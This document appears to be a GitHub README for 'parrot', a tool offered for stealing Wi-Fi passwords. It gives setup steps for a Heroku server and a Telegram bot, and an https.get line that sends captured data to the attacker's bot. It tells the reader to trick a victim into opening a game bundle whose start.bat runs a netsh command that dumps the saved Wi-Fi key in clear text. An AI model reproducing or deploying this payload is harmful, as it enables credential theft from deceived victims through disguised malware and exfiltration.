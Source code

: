 # parrot Wi-Fi hacking tool
this is a simple payload that sends the password of a known wifi  to rouge sever.
# requirements
node.js https://nodejs.org/en/download/  
heroku account https://signup.heroku.com/  
heroku cli https://devcenter.heroku.com/articles/heroku-cli#download-and-install  
A telegram bot https://t.me/BotFather
# usage
```shell
git clone https://github.com/ba5liel/parrot.git  
cd parrot  
heroku login  
git push -u heroku 
```
Insert the aproprate params
```js
https.get(`https://api.telegram.org/bot{{Your bot token}}/sendMessage?chat_id={{your telegram id}}&text=${body}`);
```
send the Game-monkey-lander.zip to victim using any social engineering techniques. and make sure the victim opens the start.bat file  
now you can see the password at [yourapp].heroku.com or it's sent to your telegram account through the bot you setted up using @BotFather
# payload
this include a mini game that launches when start.bat is opened.  
you must change the start.bat in the payload    

```shell
netsh wlan show profile "vitim wifi name" key=clear | findstr "Key Content" > bin\log.txt
```

#enjoy

